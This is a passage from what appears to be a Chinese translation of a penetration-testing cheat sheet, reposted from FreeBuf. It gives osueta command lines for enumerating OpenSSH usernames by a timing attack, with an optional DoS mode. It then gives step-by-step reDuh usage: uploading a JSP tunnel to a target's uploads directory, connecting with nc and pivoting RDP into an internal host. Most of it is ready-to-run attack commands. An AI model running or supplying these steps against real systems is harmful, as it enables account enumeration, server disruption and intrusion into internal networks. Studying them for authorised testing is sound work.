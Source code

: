 osueta 是一个用于对 OpenSSH 进行时序攻击的 python2 脚本，其可以利用时序攻击枚举 OpenSSH 用户名，并在一定条件下可以对 OpenSSH 服务器进行 DOS 攻击。

# https://github.com/c0r3dump3d/osueta
$ ./osueta.py -H 192.168.1.6 -p 22 -U root -d 30 -v yes
$ ./osueta.py -H 192.168.10.22 -p 22 -d 15 -v yes –dos no -L userfile.txt
使用 ReDuh 构造合法的 HTTP 请求以建立 TCP 通道
注： ReDuh 是一个通过 HTTP 协议建立隧道传输各种其他数据的工具。其可以把内网服务器的端口通过 http/https 隧道转发到本机，形成一个连通回路。用于目标服务器在内网或做了端口策略的情况下连接目标服务器内部开放端口。

对了亲～ReDuh-Gui 号称端口转发神器哦。

# https://github.com/sensepost/reDuh

# 步骤 1
# 上传 reDuh.jsp 目标服务器
$ http://192.168.10.50/uploads/reDuh.jsp

# 步骤 2
# 在本机运行 reDuhClient 
$ java -jar reDuhClient.jar http://192.168.10.50/uploads/reDuh.jsp

# 步骤 3
# 使用 nc 连接管理端口
$ nc -nvv 127.0.0.1 1010

# 步骤 4
# 使用隧道转发本地端口到远程目标端口
[createTunnel] 7777:172.16.0.4:3389

# 步骤 5
# 使用 RDP 连接远程
$ /usr/bin/rdesktop -g 1024x768 -P -z -x l -k en-us -r sound:off localhost:7777
*原文：jivoi，FB小编xiaix编译，转自须注明来自FreeBuf黑客与极客（FreeBuf.COM）